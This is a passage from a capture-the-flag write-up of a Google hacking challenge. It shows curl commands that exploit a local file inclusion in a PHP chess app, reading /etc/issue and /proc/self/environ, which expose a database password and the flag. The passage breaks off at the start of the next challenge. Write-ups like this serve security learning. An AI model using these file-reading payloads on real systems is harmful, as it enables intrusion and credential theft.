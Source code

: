 It sends a http POST request in background, using the `filename` parameter.

```shell
❯ curl 'http://hackerchess-web.h4ck.ctfcompetition.com/load_board.php' -X POST \
    --data 'filename=baseboard.fen'
Loading Fen: rnbqkbnr/pppppppp/8/8/8/8/PPPPPPPP/RNBQKBNR w KQkq - 0 1
```

Tweaking the value of this parameter, we get an empty reply. BUT, trying some well-known file on Linux, we get its content :)

```shell
❯ curl 'http://hackerchess-web.h4ck.ctfcompetition.com/load_board.php' -X POST \
    --data 'filename=/etc/issue' --output -
Loading Fen: Ubuntu 20.04 LTS \n \l
```

This means we have a (straightforward to exploit) [local file inclusion](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) (LFI).

One of the first thing to do when you have an LFI is learning who you are and where you are. This can be done including `/proc/self/environ` :

```shell
❯ curl -s 'http://hackerchess-web.h4ck.ctfcompetition.com/load_board.php' -X POST \
    --data 'filename=/proc/self/environ' --output - | tr '\0' '\n' | head -10
Loading Fen: SERVER_NAME=hackerchess-web.h4ck.ctfcompetition.com
REDIRECT_DB_PASSWORD=***REDACTED***
REDIRECT_DB_HOST=chess-ai-mysql
SCRIPT_NAME=/cgi-bin/nsjail-php-cgi
REDIRECT_STATUS=200
GATEWAY_INTERFACE=CGI/1.1
REDIRECT_FLAG=https://h4ck1ng.google/solve/**REDACTED***
SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)
PATH_INFO=/load_board.php
DOCUMENT_ROOT=/web-apps/php
```

And here is my flag! Along with it, we get the DB password, and some juicy information about the technology used on the system… how cool is that?! >:D

### CHALLENGE 02

> After recent attacks, we've developed a search tool. Search the logs and discover what the attackers were after.
>
> Hint: Always search deeper.

[This log search](https://aurora-web.h4ck.ctfcompetition.com) tool looks very basic.

#### Solution

We have a dropdown menu with a selection of files and a text box where we can put the search term. Looking at the source, we learn that clicking on the search button, the browser will issue a GET to the server, using this JavaScript:
